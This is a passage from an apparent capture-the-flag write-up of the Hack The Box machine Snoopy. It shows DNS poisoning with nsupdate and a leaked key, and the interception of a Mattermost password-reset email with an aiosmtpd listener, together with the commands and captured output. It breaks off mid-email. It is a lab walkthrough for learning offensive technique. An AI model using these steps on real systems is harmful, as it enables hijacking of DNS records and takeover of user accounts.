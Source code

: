 

If I ask the DNS server for `mail.snoopy.htb` before making changes, it
comes back empty. I'll run `nsupdate` and then it shows my IP:



    oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
    oxdf@hacky$ nsupdate -k rndc.key poison_dns.txt
    oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
    mail.snoopy.htb.        86400   IN      A       10.10.14.6



It seems this resets every two minutes, so I'll need to work fast, or be
ready to come back and update this again.

#### Capture Email

With the DNS pointed at my host, I'll run a simple Python SMTP server
using the `aoismtpd` module. Just like the `http.server` module, it can
be run from the command line to create a simple server like
`python -m aiosmtpd -n -l 0.0.0.0:25`. `-n` tells it not to try to set
the UID (which is important since I'm not running as root).
`-l 0.0.0.0:25` tell it to listen on 25. I've got my Python configured
with capabilities to allow for listening on low ports:



    oxdf@hacky$ getcap /usr/bin/python3.11
    /usr/bin/python3.11 cap_net_bind_service=ep



Alternatively, you could try to install this package as root.

With that running, I'll request the reset email:



    oxdf@hacky$ python -m aiosmtpd -n -l 0.0.0.0:25                        
    ---------- MESSAGE FOLLOWS ----------
    mail options: ['BODY=8BITMIME']

    MIME-Version: 1.0
    Precedence: bulk
    To: sbrown@snoopy.htb
    Auto-Submitted: auto-generated
    Subject: [Mattermost] Reset your password
    Content-Transfer-Encoding: 8bit
    Date: Tue, 09 May 2023 21:08:16 +0000
    Reply-To: "No-Reply" <no-reply@snoopy.htb>
    Message-ID: <qt31833ar96e61h3-1683666496@mm.snoopy.htb>
    From: "No-Reply" <no-reply@snoopy.htb>
    Content-Type: multipart/alternative;
     boundary=52b4c5cd180f7c88b0201b7c0f2e0f8361ac6969fe40e5073a1d5de091cd
    X-Peer: ('10.10.11.212', 53380)

    --52b4c5cd180f7c88b0201b7c0f2e0f8361ac6969fe40e5073a1d5de091cd
    Content-Transfer-Encoding: quoted-printable
    Content-Type: text/plain; charset=UTF-8
